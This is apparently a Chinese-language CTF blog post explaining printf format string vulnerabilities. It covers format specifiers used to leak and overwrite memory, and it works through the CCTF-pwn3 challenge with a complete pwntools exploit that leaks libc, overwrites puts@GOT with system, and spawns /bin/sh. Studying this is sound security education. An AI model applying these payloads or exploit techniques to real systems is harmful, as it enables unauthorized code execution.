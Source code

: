 ```yaml
---
title: printf格式化漏洞
date: 2017-08-04 20:35:18
categories: pwn
tags: c++
---
```


### 1. 格式化字符串漏洞基本原理

格式化字符串漏洞在通用漏洞类型库CWE中的编号是134，其解释为“软件使用了格式化字符串作为参数，且该格式化字符串来自外部输入”。会触发该漏洞的函数很有限，主要就是printf、sprintf、fprintf等print家族函数。介绍格式化字符串原理的文章有很多，我这里就以printf函数为例，简单回顾其中的要点。

> printf("format", arg1, arg2, ...)

其第一个参数为格式化字符串，用来告诉程序以什么格式进行输出！然后是参数1（偏移1），参数2（偏移2），...

下面是两张详细的说明图：
![printf_stack.png](/images/2017-08-04/printf_stack.png)

![printf_stack2.png](/images/2017-08-04/printf_stack2.png)

### 2. 格式化漏洞测试

写出一下printf函数

> printf("%8$x1234");

gdb调试该程序，最后展示栈内容，得到如下图：

![stack_value](/images/2017-08-04/stack_value.jpg)

打印结果：
> 12341234

<font color=#f00>说明：
A、8$ 表示栈空间从format string算起，偏移量为8的那个栈位置，在上图中format string对应的是地址0xffffd234，值为0x0804b438；而偏移为8的位置为0xffffd250，值为0x34333231("1234")，最终会输出的是偏移8地址上的值"1234"
B、如果将上面的format换成%8$s1234，那么就相当于打印0x34333231处的字符串。而如果此处为funA@got地址，那么输出的字符串就会是funA的执行地址
C、对于密码，输入“%2214x%8$hn”，其中，2214是0x8a6的10进制，而%8$hn表示将前面输出的字符数（即2214）写入偏移8处储存的栈地址所指向空间的低两字节处，即修改0x0d74为0x08a6；若用n，则%2214x需改为%4196518x，即需要输出4196518个字符，开销太大，特别是在远程攻击时，很可能导致连接断掉。
</font>

### 3.基本的格式化字符串参数

* %c：输出字符，配上%n可用于向指定地址写数据。
* %d：输出十进制整数，配上%n可用于向指定地址写数据。
* %x：输出16进制数据，如%i$x表示要泄漏偏移i处4字节长的16进制数据，%i$lx表示要泄漏偏移i处8字节长的16进制数据，32bit和64bit环境下一样。
* %p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。
* %s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。
* %n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100x%10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。
* %n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据

<font color=#f00>下面的结论是我最近的发现，是在调试逐渐加深理解的。printf("1234%n")：[偏移1]=4。也即修改的其实是栈上保存的地址中的值。如下图所示:</font>

![printf_stack3.png](/images/2017-08-04/printf_stack3.png)

格式化字符串漏洞发生在**栈中**，利用方式以下几种：

1. 修改变量的值，绕过认证
2. 覆写GOT表
3. 修改栈中保存的返回地址

而之所以可以这样修改，全是因为字符串被保存在在了栈中。若格式化字符串`buf`存储在**堆中**，也就是说我们输入的内容不会出现在栈里，那就不能通过向栈中写入地址的方式进行攻击，不过可以利用栈中**已有的值**进行攻击。

### 4. 实验测试

#### 4.1 CCTF-pwn3

本题只有NX一个安全措施，且为32位程序。

通过IDA逆向及初步调试，可以知道以下两点。

用户名是“sysbdmin”字符串中每个字母的ascii码减1，即rxraclhm；

在打印（即get功能，sub_080487F6函数）put（本程序功能，不是libc的puts）上去的文件内容时存在格式化字符串漏洞，且格式化字符串保存在栈中，偏移为7。

主要利用思路就是先通过格式化字符串漏洞泄露出libc版本，从而得到system函数调用地址；然后将该地址写到puts函数GOT表项中，由于程序dir功能会调用puts，且调用参数是用户可控的，故当我们以“/bin/sh”作为参数调用puts（也就是dir功能）时，其实就是以“/bin/sh”为参数调用system，也就实现了getshell。

```
# -*- coding: utf-8 -*-
#/usr/bin/env python

from pwn import *

elf = ELF('pwn3')
libc = ELF('/lib32/libc.so.6')
plt_puts = elf.symbols['puts']
print 'plt_puts= ' + hex(plt_puts)
got_puts = elf.got['puts']
print 'got_puts= ' + hex(got_puts)
p = process('./pwn3')

username = 'rxraclhm'

def put(pr, name, content):
    pr.recvuntil("ftp>")
    pr.sendline('put')
    pr.recvuntil("upload:")
    pr.sendline(name)
    pr.recvuntil("content:")
    pr.sendline(content)

def get(pr, name, num):
    pr.recvuntil("ftp>")
    pr.sendline('get')
    pr.recvuntil('get:')
    pr.sendline(name)
    return pr.recvn(num)

def dir(pr):
    pr.recvuntil("ftp>")
    pr.sendline('dir')

def edit_func(name, address, num):
    num = num & 0xff
    if num == 0 : num == 0x100
    payload = '%' + str(num) + 'c%10$hhn'
    payload = payload.ljust(12, 'A')
    put(p, name, payload + p32(address))
    get(p, name, 0)

def main():
    '''
    gdb.attach(p, """
        B * 0x080488A4
        """)
    '''
    p.readuntil("Name (ftp.hacker.server:Rainism):")
    p.sendline(username)
    put(p, "/sh", "%8$s"+p32(got_puts))
    text = get(p, "/sh", 4)
    puts_addr = u32(text)
    print 'puts_addr= ' + hex(puts_addr)
    system_addr = puts_addr - (libc.symbols['puts'] - libc.symbols['system'])
    print 'system_addr= ' + hex(system_addr)

    edit_func('n', got_puts, system_addr)
    edit_func('i', got_puts+1, system_addr>>8)
    edit_func('b', got_puts+2, system_addr>>16)
    edit_func('/', got_puts+3, system_addr>>24)

    dir(p)
    p.interactive()
    pass

if __name__ == '__main__':
    main()
```

代码写的有点冗余，但主要的思路还是比较清晰：

> leak system_addr => write system_addr to puts@got => concat the /bin/sh => system('/bin/sh')

题目算是没什么坑的fmt的题，个人觉得这些题还是有以下解题技巧：

1.函数封装的好，能够节省很多时间；

2.使用%10$x这样的形式确定参数的偏移，使用%10\$s这样的形式泄露特定地址数据，使用%c %n的组合拳来改写数据；

3.尽量使用%hn和%hhn，避免过多的返回；

4.最好在每次使用%n修改地址后，使用%s去确认一下修改是否成功，对于新手而言能节省大量的时间。